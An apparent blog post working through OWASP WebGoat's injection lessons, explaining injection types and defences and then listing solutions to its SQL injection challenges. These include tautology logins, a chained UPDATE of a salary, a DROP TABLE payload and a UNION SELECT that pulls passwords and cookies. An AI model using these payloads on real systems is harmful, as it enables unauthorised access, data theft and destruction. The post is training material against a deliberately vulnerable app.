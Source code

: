 ## **OWASP Top 10 WebGoat - Injection**

<ins>**Introduction**</ins>

*WebGoat* is a deliberately insecure web application maintained by *OWASP* designed to teach web application security lessons. More information including how to download and run WebGoat can be found here on the projects [GitHub](https://github.com/WebGoat/WebGoat).
This is post eight of a series where I will be doing WebGoats challenges to further my understanding of the OWASP Top 10 and web application security as a whole. I have started from the number 10 and am working my way backwards to number 1.

---

<ins> **\#4. Injection** </ins>

Injection attacks happen when untrusted data is sent to a code interpreter through a form input or some other data submission. For example An attacker could enter SQL database code into a form that expects a plaintext username. If that form input is not properly secured this would result in that SQL code being executed. 

The concept is identical among all interpreters. Source code review is the best method of detecting if applications are vulnerable to injections. Automated testing of all parameters, headers, URL, cookies, JSON, and XML data inputs is strongly encouraged. Organizations can include static, dynamic and interactive application security testing tools into the CI/CD pipeline to identify introduced injections flaws before deployment. 

**Common Types of Injection Attacks:**

* *SQL Injection:* Is a type of web application vulnerability where an attacker can manipulate the input parameters of a SQL query to execute unintended commands or gain unauthorized database access. It occurs when user supplied input is not properly validated or sanitized before being used in a SQL query.
* *Cross-Site Scripting (XSS)*: Is an injection attack where malicious scripts are injected into trusted web applications, which are then executed by a victims browser when they visit it. It occurs when untrusted data is displayed on a web page without proper sanitization or validation.  
* *Command Injection:* These attacks occur when an attacker injects malicious commands into a system command-line interface or shell. This can happen if user supplied data is not properly validated or sanitized before being used in a command execution function. 
* *XML Injection:* These attacks exploit vulnerabilities in applications that process XML input. Attackers can inject malicious XML code to manipulate the applications behavior, gain unauthorized access, or retrieve sensitive information. 
* *File Inclusion/Path Traversal:* File inclusion and Path Traversal attacks involve manipulating file or resource inclusion mechanism to access files or directories that should be not accessible.  

**Preventing injection requires keeping data separate from commands and queries:**

* The preferred option is to use a safe API, which avoids using the interpreter entirely, provides a parameterized interface, or migrates to Object Relational Mapping tools. 
* Use positive server-side input validation. 
* For any residual dynamic queries escape special characters using the specific escape syntax for that interpreter. 
* Use LIMIT and other SQL controls within queries to prevent mass disclosure of records in case of SQL injection. 
* Implementing a Web Application Firewall can add a layer of protection. WAFs can analyze incoming requests, detect attack patters, and block or filter out malicious input. 
* Conduct regular security testing such a penetration testing and code reviews.  

---

<ins> *WebGoat SQL Injection Challenges** </ins>

**Challenge 1*

*What is SQL?*

![challenge1](/docs/assets/images/webgoat/injection/inject01.png)

![challenge 1 cont](/docs/assets/images/webgoat/injection/inject02.png)

`SELECT department FROM employees WHERE first_name='Bob' `

![Complete1](/docs/assets/images/webgoat/injection/inject03.png)

**Challenge 2**

*Data Manipulation Language*

![challenge2](/docs/assets/images/webgoat/injection/inject04.png)

`UPDATE employees SET department='Sales' WHERE first_name='Tobi' `


![complete3](/docs/assets/images/webgoat/injection/inject05.png)

**Challenge 3**

*Data Definition Language*

![challenge3](/docs/assets/images/webgoat/injection/inject06.png)

`ALTER TABLE employees ADD phone varchar(20)`

![complete3](/docs/assets/images/webgoat/injection/inject07.png)

**Challenge 4**

*Data Control Language*

![challenge4](/docs/assets/images/webgoat/injection/inject08.png)

`GRANT SELECT, INSERT, UPDATE, DELETE ON grant_rights TO unauthorized_user; `

![complete4](/docs/assets/images/webgoat/injection/inject09.png)

**Challenge 5**

*String SQL INjection*

![challenge5](/docs/assets/images/webgoat/injection/inject10.png)

`SELECT * FROM user_data WHERE first_name = 'John' and last_name = '' or '1' = '1'`

As the explanation above states this injection worked because one will always equal to one so the statement evaluates as true regardless of what came before it.  

**Challenge 6**

*Numeric SQL Injection*

![challenge6](/docs/assets/images/webgoat/injection/inject11.png)

`SELECT * From user_data WHERE Login_Count = 0 and userid= 0 OR 1=1`

**Challenge 7**

*It Is Your Turn!*

![challenge7](/docs/assets/images/webgoat/injection/inject12.png)

```
Employee Name: A
Authentication TAN: ' OR '1'='1
```

**Challenge 8 **

*Compromising Integrity with Query Chaining*

![challenge8](/docs/assets/images/webgoat/injection/inject13.png)

```
Employee Name: A
Authentication TAN: '; UPDATE employees SET salary=99999 WHERE first_name='John 
```

**Challenge 9**

*Compromising Availability*

![challenge9](/docs/assets/images/webgoat/injection/inject14.png)

`%'; DROP TABLE access_log;-- `

**Challenge 10**

*Pulling Data From Other Tables*

![challenge10](/docs/assets/images/webgoat/injection/inject15.png)

```
Name: '; SELECT * FROM user_system_data;-- or ' UNION SELECT 1, user_name, password, cookie, 'A', 'B', 1 from user_system_data;-- 
Password: passW0rD 
```

---

<ins> **WebGoat Path Traversal Challenges** </ins>


